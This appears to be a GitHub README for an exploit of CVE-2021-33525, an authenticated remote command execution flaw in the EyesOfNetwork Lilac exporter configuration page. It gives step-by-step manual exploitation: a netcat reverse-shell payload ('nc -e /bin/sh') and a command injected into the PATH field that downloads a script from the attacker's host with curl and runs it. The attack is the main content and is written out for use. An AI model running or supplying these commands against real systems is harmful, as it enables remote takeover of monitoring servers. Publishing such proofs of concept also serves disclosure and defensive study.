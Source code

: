 # LilacPathVUln
CVE-2021-33525
```
###############################################
#              (Authentified)                 #
#         Remote Commande Execution           #
#               EyesOfNetwork                 #
#                                             #
#      Impacted version * =/>  5.3.11         #
#               ...........                   #
#                                             #
#         Scripted on 05/22/2021              #
#              By ArianeBlow                  #
#                                             #
###############################################
```

The Eyes Of Network Lilac exporter configuration page contain a Remote Commande Execution vulnerability. 

The PoC's working fine, (sometime you must have to lunch the script twice ... It's juste a PoC in BASH right !)

Can be abused manually :

Create a bash script for payload (exemple : nc -e /bin/sh LHOST LPORT) and start an http server in the same directory.

Go on EyesOfNetwork Lilac exporter config page : https://RHOST/lilac/export.php.

Create a new config and modify the "PATH" (at the end of the webpage) and put the commande after the original line like that for exemple : 
```
/srv/eyesofnetwork/nagios/bin/nagios -v /tmp/lilac-export-33/nagios.cfg && curl http://LHOST:LPORT/test.sh -o /tmp/lilac-export-2/test.sh && chmod +x /tmp/lilac-export-2/test.sh && cd /tmp/lilac-export-2/ && ./test.sh
```
Start your listener and lunch the export config.
Voila !
